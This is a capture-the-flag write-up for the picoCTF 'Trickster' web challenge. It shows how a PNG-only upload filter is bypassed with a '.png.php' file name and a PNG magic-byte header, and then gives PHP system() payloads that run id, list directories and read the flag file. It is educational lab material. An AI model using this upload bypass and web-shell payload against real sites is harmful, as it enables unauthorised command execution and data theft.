









# Trickster (300 points)
I found a web app that can help process images: PNG images only!

Try it [here]()!

## Solution
If we access the website, we find the following landing page:


If we upload a PNG file we got this response:


I tried to check for a `robotx.txt`, because it's pretty common in CTFs. And here aswell:
```
$ curl atlas.picoctf.net:62546/robots.txt
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
$
```

The server has a `/instructions.txt` and a folder called `/uploads/`. Latter is probably the folder where uploaded images are stored.

Let's inspect the first one:
```
$ curl atlas.picoctf.net:62546/instructions.txt
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
        look for ".png" extension in the submitted files
        make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
$
```

This seems like a hint for the upload restrictions. The file must have the `.png` extension and the first bytes has to be `PNG`. It says also that that uploaded files are stored. That references to the `/uploads/` directory.

Let's open Burp and try to manipulate the file upload in hope to get a file upload vulnerability.

If we upload a valid file, we see the already known response:


If we try to change the file extension to `.php` we got this error message:


But `does not contain '.png'` sounds not like it excludes different file endings behind the `.png`. So let's try out to rename our file to `[...].png.php` and bypass this check:


The upload works!

Know we can try to manipulate the content of the file. With an empty content we get an interesting error message:


But probably not useful for us.

Putting a random content inhere will also create an error:


According to the `instructions.txt`, we only need the `PNG` bytes:


That works. We should be able to inject some php code after that header.

So if put now things together we can upload and access a php file and inject php code in there. Let's try a simple testing payload for this:
```php
<?php echo system('id'); ?>
```


We should be able to access the file now under the path `/uploads/Screenshot_2024-03-23_16_43_04.png.php`:


That was succesful! Let's list the directory contents if we change the system command to `ls`:
```php
<?php echo system('ls -al'); ?>
```


We already know the `instructions.txt`, the `robots.txt` and the `uploads/` folder. But the file `GQ4DOOBVMMYGK.txt` is new. Let's check its content:
```php
<?php echo system('cat ../GQ4DOOBVMMYGK.txt'); ?>
```


Nice! The file was our flag. We are done here!
